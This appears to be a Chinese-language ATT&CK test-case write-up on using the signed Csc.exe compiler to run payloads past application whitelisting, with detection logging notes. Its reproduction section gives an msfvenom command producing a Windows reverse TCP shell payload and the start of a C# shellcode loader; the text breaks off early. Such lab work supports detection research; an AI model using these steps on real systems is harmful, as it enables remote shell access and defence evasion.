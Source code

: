 # T1027-004-win-基于白名单Csc.exe配置payload

## 来自ATT&CK的描述

许多软件开发相关的实用程序可用于执行各种形式的代码以协助开发、调试和逆向工程。这些实用程序通常可以使用合法证书进行签名。签名后，它们就可以在系统上执行，并通过可信的进程代理执行恶意代码，从而有效地绕过应用白名单防御解决方案。

## 测试案例

C#的在Windows平台下的编译器名称是Csc.exe，如果你的.NET FrameWork SDK安装在C盘，那么你可以在C:\WINNT\Microsoft.NET\Framework\xxxxx目录中发现它。为了使用方便，你可以手动把这个目录添加到Path环境变量中去。用Csc.exe编译HelloWorld.cs非常简单，打开命令提示符，并切换到存放 test.cs文件的目录中，输入下列行命令:csc /target:exe test.cs 将Ttest.cs 编译成名为 test.exe 的 console 应用程序

说明：Csc.exe所在路径没有被系统添加PATH环境变量中，因此，csc命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe

C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 测试过程

#### 配置payload

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.126.146 lport=4444 -f csharp
```

copy buf 到 Micropoor_Csc.cs shellcode中。

#### Micropoor_Csc.cs

```cs
using System;

using System.Net;

using System.Diagnostics;

using System.Reflection;

using System.Configuration.Install;

using System.Runtime.InteropServices;


// msfvenom -p windows/x64/shell/reverse_tcp lhost=192.168.126.146 lport=4444 -f csharp

public class Program
```